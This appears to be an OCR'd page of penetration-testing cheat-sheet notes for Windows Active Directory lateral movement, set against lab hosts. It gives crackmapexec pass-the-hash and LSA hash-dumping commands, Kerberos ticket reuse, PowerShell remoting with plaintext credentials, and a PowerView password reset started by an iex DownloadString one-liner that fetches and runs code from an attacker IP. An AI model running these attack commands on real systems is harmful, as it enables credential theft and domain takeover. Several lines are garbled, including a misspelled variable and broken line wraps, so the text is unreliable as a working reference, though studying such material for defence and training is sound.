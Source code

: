 Execute remote commands:

```bash
crackmapexec winrm -u 'pete' -H <ntlm hash> --local-auth
```

Kerberos:
```bash
cat matthew.b64 | base64 -d > matthew.ccache
export KRBCCNAME=$(pwd)/matthew.ccache
klist

proxychains -q crackmapexec smb corp.com --kerberos --continue-on-success # Must provide FQDNs

# Use cme to list the domain
proxychains -q crackmapexec smb 10.10.10.1X/24
# Add the FQNs to a targets file
...
# Retrieve hashes from password
proxychains crackmapexec smb dev02-corp -u Administrator -p Password123! --local-auth --lsa

# Dump hashes for other users
proxychains crackmapexec smb web02-corp -u Matthew.Lucas -H 5bcoe56i4645ho43h2ei534rsat --lsa
```

#### Enter Powershell Session as Another User

```bash
PS C:\Users\dave> $password = ConvertTo-SecureString "Dolphin1" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("sql_svc", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName MS02 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
clientwk220\daveadmin
```

#### RDP Session Inception

```bash
Start-Process "$env:windir\system32\mstsc.exe" -ArgumentList "/v:dev04.medtech.com"
```

#### Force to Reset Password

```bash
# Import the PowerView module
iex (new-object net.webclient).DownloadString('http://192.168.45.231/PowerView.ps1')
# Convert the new password to a secure string                                  
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
# Create a PSCredential object with an account that has permissions to reset   
passwords	
$Cred = New-Object System.Management.Automation.PSCredential('web02.dmz.medtech.com\\Administrator', (ConvertTo-SecureString 'FGjksdff89sdfj' -AsPlainText -Force))

# Reset the password for the user 'nina'                                       
Set-DomainUserPassword -Identity 'Administrator' -AccountPassword $UserPassword -Credential $Cred -Verbose
# If you need to set the password for another user, repeat the process with the correct details
# For example, for a user named 'User.Name':
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('web02\Administrator', $SecPassword)
# Reset the password
Set-DomainUserPassword -Identity 'Administrator' -AccountPassword $UserPassword -Credential $Cred -Verbose
# Optionally, if you need to set a script path for the user object             
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname